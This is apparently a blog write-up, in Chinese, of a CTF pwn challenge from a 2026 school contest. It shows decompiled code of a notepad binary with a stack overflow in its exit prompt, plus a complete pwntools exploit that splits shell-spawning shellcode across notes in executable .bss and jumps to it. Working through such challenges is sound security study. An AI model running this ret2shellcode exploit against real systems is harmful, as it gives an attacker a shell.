





+++
title = "wp2--ret2shellcode"
date = "2026-03-29"
type = "post"
categories = ["比赛"]
tags = ["2026校赛"]
draft = false
+++

输入>=5 会直接跳转到下面这个函数

read可以溢出


```c
__int64 __fastcall main(__int64 a1, char **a2, char **a3)
{
  signed int v4; // [rsp+Ch] [rbp-24h] BYREF
  _BYTE buf[10]; // [rsp+12h] [rbp-1Eh] BYREF
  int v6; // [rsp+1Ch] [rbp-14h]
  int j; // [rsp+20h] [rbp-10h]
  int i; // [rsp+24h] [rbp-Ch]
  int v9; // [rsp+28h] [rbp-8h]
  int v10; // [rsp+2Ch] [rbp-4h]

  sub_4011D6(a1, a2, a3);
  v10 = -559038737;
  v9 = 0;
  while ( v10 )
  {
    v6 = sub_401253();
    if ( v6 == 5 )
    {
      puts("The notepad is closed.");
      v10 = 0;
      goto LABEL_34;
    }
    if ( v6 > 5 )
    {
LABEL_33:
      puts("Invalid choice.");
      goto LABEL_34;
    }
    switch ( v6 )
    {
      case 4:
        printf("index: ");
        __isoc23_scanf("%d", &v4);
        if ( (unsigned int)v4 > 9 || !*((_QWORD *)&unk_404260 + v4) )
        {
LABEL_30:
          puts("Invalid index.");
          break;
        }
        *((_QWORD *)&unk_404260 + v4) = 0;
        puts("Delete a note successfully.");
        break;
      case 3:
        printf("index: ");
        __isoc23_scanf("%d", &v4);
        if ( (unsigned int)v4 > 9 || !*((_QWORD *)&unk_404260 + v4) )
          goto LABEL_30;
        if ( *((_QWORD *)&unk_404260 + v4) == 1 )
        {
          printf("Content: ");
          write(1, (char *)&unk_4040C0 + 40 * v4, 0x28u);
          putchar(10);
        }
        else
        {
          puts("The paper is empty.");
        }
        break;
      case 1:
        for ( i = 0; i <= 9; ++i )
        {
          if ( !*((_QWORD *)&unk_404260 + i) )
          {
            *((_QWORD *)&unk_404260 + i) = malloc(0x64u);
            printf("Create a note successfully.Index of the note is %d\n", i);
            break;
          }
        }
        if ( i == 10 )
          puts("No space for new note.");
        break;
      case 2:
        printf("index: ");
        __isoc23_scanf("%d", &v4);
        if ( (unsigned int)v4 > 9 || !*((_QWORD *)&unk_404260 + v4) )
          goto LABEL_30;
        if ( *((_QWORD *)&unk_404260 + v4) == 1 )
        {
          puts("The paper already used.");
        }
        else
        {
          printf("Content: ");
          read(0, *((void **)&unk_404260 + v4), 0x64u);
          memcpy((char *)&unk_4040C0 + 40 * v4, *((const void **)&unk_404260 + v4), 0x28u);
          free(*((void **)&unk_404260 + v4));
          *((_QWORD *)&unk_404260 + v4) = 1;
          puts("Write a note successfully.");
        }
        break;
      default:
        goto LABEL_33;
    }
LABEL_34:
    putchar(10);
  }
  printf("Do you want to clear all the notes before exiting? (y/n): ");
  read(0, buf, 0x64u);
  if ( buf[0] == 121 || buf[0] == 89 )
  {
    for ( j = 0; j <= 9; ++j )
    {
      if ( *((_QWORD *)&unk_404260 + j) < 2u )
      {
        if ( *((_QWORD *)&unk_404260 + j) == 1 )
        {
          ++v9;
          *((_QWORD *)&unk_404260 + j) = 0;
        }
      }
      else
      {
        ++v9;
        free(*((void **)&unk_404260 + j));
        *((_QWORD *)&unk_404260 + j) = 0;
      }
    }
    printf("%d notes have been cleared.\n", v9);
  }
  return 0;
}
```
```c
  _BYTE buf[10]; // [rsp+12h] [rbp-1Eh] BYREF
```
var_24是v4
var_14是一开始的选择
var_10是j
var_C是i
var_8是v9
var_4是v10 = '\xDE\xAD\xBE\xEF';
var_4要保持大于0，或者每次都直接返回main再选个5

这些都没什么用

.bss是rwxp
note从004040C0 开始存
一段最多存40
shellcode大于40，分段存，存是
```python
r.sendlineafter(b'Input your choice:',b'1')  
r.sendlineafter(b'Input your choice:',b'2')  
r.sendlineafter(b'index: ',b'0')  
r.sendlineafter(b'Content:',shellcode1)  
```
溢出点在read，payload如下：
```python
r.sendlineafter(b'Input your choice:',b'5')  
payload = b'a'*(0x1e + 8) + p64(addr) + p64(ret)  #这个ret倒是可加可不加
r.sendlineafter(b'Do you want to clear all the notes before exiting? (y/n):',payload)  
```


exp:
```python
from pwn import *  
  
local_file  = './pwn'  
local_libc  = './ld-linux-x86-64.so.2'  
remote_libc = './ld-linux-x86-64.so.2'  
  
select = 0  
if select == 0:  
    r = process(local_file)  
    libc = ELF(local_libc)  
else:  
    r = remote('nc1.ctfplus.cn',  24080)  
    libc = ELF(remote_libc)  
  
elf = ELF(local_file)  
  
context.log_level = 'debug'  
context.arch = elf.arch  
  
main = 0x004012DA  
  
  
ret = 0x0000000000401016  
addr = 0x004040C0  
  
shellcode = asm(shellcraft.sh())  
print(len(shellcode))  
shellcode1 = shellcode[0:40]  
shellcode2 = shellcode[40:80]  
shellcode3 = shellcode[80:120]  
r.sendlineafter(b'Input your choice:',b'1')  
r.sendlineafter(b'Input your choice:',b'2')  
r.sendlineafter(b'index: ',b'0')  
r.sendlineafter(b'Content:',shellcode1)  
r.sendlineafter(b'Input your choice:',b'1')  
r.sendlineafter(b'Input your choice:',b'2')  
r.sendlineafter(b'index: ',b'1')  
r.sendlineafter(b'Content:',shellcode2)  
r.sendlineafter(b'Input your choice:',b'1')  
r.sendlineafter(b'Input your choice:',b'2')  
r.sendlineafter(b'index: ',b'2')  
r.sendlineafter(b'Content:',shellcode3)  
  
  
  
r.sendlineafter(b'Input your choice:',b'5')  
payload = b'a'*(0x1e + 8) + p64(addr)  
r.sendlineafter(b'Do you want to clear all the notes before exiting? (y/n):',payload)  
  
  
r.interactive()
```
